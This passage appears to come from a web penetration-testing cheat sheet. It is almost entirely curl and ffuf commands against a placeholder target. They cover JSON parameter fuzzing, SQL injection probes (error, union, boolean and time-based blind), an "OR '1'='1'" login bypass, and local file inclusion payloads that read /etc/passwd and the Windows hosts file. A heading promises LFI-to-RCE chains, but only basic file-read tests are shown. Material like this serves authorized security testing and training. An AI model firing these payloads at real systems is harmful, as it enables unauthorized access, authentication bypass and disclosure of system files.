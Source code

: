 ```bash
# JSON parameter fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
     -u http://<target>/api/login -X POST \
     -d '{"FUZZ":"test"}' -H "Content-Type: application/json" -fs 1234
```

## Advanced Vulnerability Testing

### SQL Injection Mastery (Beyond SQLMap)

#### Manual SQL Injection Testing
```bash
# Basic error-based detection
curl "http://<target>/page.php?id=1'" 
curl "http://<target>/page.php?id=1\""
curl "http://<target>/page.php?id=1\\"

# Union-based injection discovery
curl "http://<target>/page.php?id=1 UNION SELECT 1--"
curl "http://<target>/page.php?id=1 UNION SELECT 1,2--"
curl "http://<target>/page.php?id=1 UNION SELECT 1,2,3--"

# Boolean-based blind testing
curl "http://<target>/page.php?id=1 AND 1=1--"
curl "http://<target>/page.php?id=1 AND 1=2--"

# Time-based blind testing
curl "http://<target>/page.php?id=1 AND SLEEP(5)--"
curl "http://<target>/page.php?id=1'; WAITFOR DELAY '0:0:5'--"
```

#### POST Data SQL Injection
```bash
# Login form testing
curl -X POST http://<target>/login.php \
     -d "username=admin' OR '1'='1'--&password=anything"

# JSON payload testing  
curl -X POST http://<target>/api/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin'\'' OR '\''1'\''='\''1'\''--","password":"test"}'
```

### Local File Inclusion (LFI) to RCE Chains

#### Basic LFI Testing
```bash
# Linux LFI payloads
curl "http://<target>/page.php?file=../../../etc/passwd"
curl "http://<target>/page.php?file=....//....//....//etc/passwd"
curl "http://<target>/page.php?file=/etc/passwd%00"

# Windows LFI payloads
curl "http://<target>/page.php?file=../../../windows/system32/drivers/etc/hosts"
curl "http://<target>/page.php?file=C:\\windows\\system32\\drivers\\etc\\hosts"
```
